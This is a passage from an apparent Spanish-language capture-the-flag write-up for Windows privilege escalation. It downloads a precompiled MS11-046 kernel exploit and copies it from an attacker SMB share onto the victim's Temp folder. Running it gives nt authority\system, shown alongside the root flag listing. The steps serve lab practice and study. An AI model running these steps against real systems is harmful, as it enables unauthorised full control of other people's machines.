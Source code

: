 Ahora clonamos el siguiente exploit ya compilado para elevar privilegios [ms11](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe)
```bash
wget https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe
--2025-08-17 21:19:06--  https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.ex
```

Una ves listo en nuestr maquina: en el mismo servidor que habiamos compartido, movemos el **ms11-046.exe** para que este disponilbe
Ahora nos movemos a la ruta **temp** que tiene capacidad de escritura
```bash
c:\Users\info>cd C:\Windows\Temp\
```

Ahora desde aqui realizamos la peticion para traernos este exploit a la maquina victima, Recordando que ya habiamos montando antes el servidor de recurso compartidos, Por eso ya no tuvimos que montarlo y nos facilita transferir archivos
```bash
C:\Windows\Temp>copy \\192.168.100.24\share\ms11-046.exe .
copy \\192.168.100.24\share\ms11-046.exe .
        1 archivos copiados.
```

Ahora explitamos el vinario
```bash
# Comando para escalar al usuario: ( root )
C:\Windows\Temp>ms11-046.exe
ms11-046.exe
```

---
## Evidencia de Compromiso
Flag de **root**
```bash
14/06/2024  18:17    <DIR>          .
14/06/2024  18:17    <DIR>          ..
14/06/2024  18:16                29 root.txt
               1 archivos             29 bytes
               2 dirs   9.820.504.064 bytes libres
```

```bash
# Captura de pantalla o output final
c:\Users\Administrador\Desktop>echo [+] Haced %username% && whoami
echo [+] Haced %username% && whoami
[+] Haced WIN-JG67MIHZH2X$ 
nt authority\system
```